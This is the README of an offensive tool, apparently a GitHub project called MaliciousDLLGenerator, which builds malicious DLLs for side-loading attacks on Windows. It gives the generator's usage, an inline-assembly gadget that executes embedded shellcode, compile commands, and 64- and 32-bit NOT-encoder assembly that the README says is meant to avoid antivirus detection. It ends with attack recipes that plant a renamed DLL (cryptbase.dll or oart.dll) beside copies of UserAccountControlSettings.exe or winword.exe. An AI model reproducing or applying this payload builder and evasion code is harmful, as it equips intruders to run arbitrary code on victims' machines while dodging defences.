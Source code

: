 # MaliciousDLLGenerator

DLL Generator for side loading attack

### Currently only support 64 bits shellcode

# Usage

```
$ python gen-dll.py -h

MaliciousDLLGenerator - Mr.Un1k0d3r - RingZer0 Team
---------------------------------------------------


[-] Shellcode size is limited to 1024 bytes
usage: gen-dll.py [-h] -o OUTPUT -s SHELLCODE [-t TYPE]

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output filename
  -s SHELLCODE, --shellcode SHELLCODE
                        Raw shellcode file path
  -t TYPE, --type TYPE  DLL type (default,oart)
```

# Shellcode gadget

Instead of using the standard shellcode calling structure

```
char shellcode[] = {};
int(*execute)(void);
execute = (int(*)())shellcode;
execute();
```

Which result in the following assembly code

```
call rax
```

The DLL is mimicking a standard function return by using the following code

```
        CHAR payload[] = "";
        asm volatile ("mov %%rax, %0\n\t"
                     "push %%rax\n\t"
                     "ret"
                     :
                     : "r" (payload));
```

Which result in following assembly code

```
mov rax, rsp
push rax
ret
```

# Compiling from source using GCC

```
C:\> x86_64-w64-mingw32-g++.exe -Wall -DBUILD_DLL -c maindll.cpp -o maindll.o
C:\> x86_64-w64-mingw32-g++.exe -shared -Wl,--dll maindll.o -o yourdll.dll -s 
```

# Compiling from ASM

64 bits

```
$ nasm -felf64 encoder-64.asm -o encoder-64.o
$ ld -N encoder-64.o -o encoder-64
```

32 bits

```
$ nasm -felf32 encoder-32.asm -o encoder-32.o
$ ld -N -melf_i386 encoder-32.o -o encoder-32
```

# Obfuscation shellcode

The DLL encode the shellcode using a simple NOT encoder to avoid AV detection.

# 64 bits NOT encoder source

```
_start:
        call $ + 5
        pop rbx
        xor rax, rax
        mov rcx, rax
        mov cl, 128
        add rbx, 16
_loop:
        not QWORD [rbx + rcx * 8]
        loop _loop
        add rbx, 8
        push rbx
        ret
```

# 32 bits NOT encoder source

```
_start:
        call $ + 5
        pop ebx
        xor eax, eax
        mov ecx, eax
        mov cx, 256
        add ebx, 18
_loop:
        not DWORD [ebx + ecx * 4]
        loop _loop
        add ebx, 4
        push ebx
        ret
```

# Attack examples

Using windows binaries

```
copy C:\windows\system32\UserAccountControlSettings.exe to a writable location
add the malicious dll in the same folder and rename it to cryptbase.dll
```

```
copy winword.exe to a writable location
add the malicious dll (use the oart switch) in the same folder and rename it to oart.dll
```

# Credit
Mr.Un1k0d3r RingZer0 Team
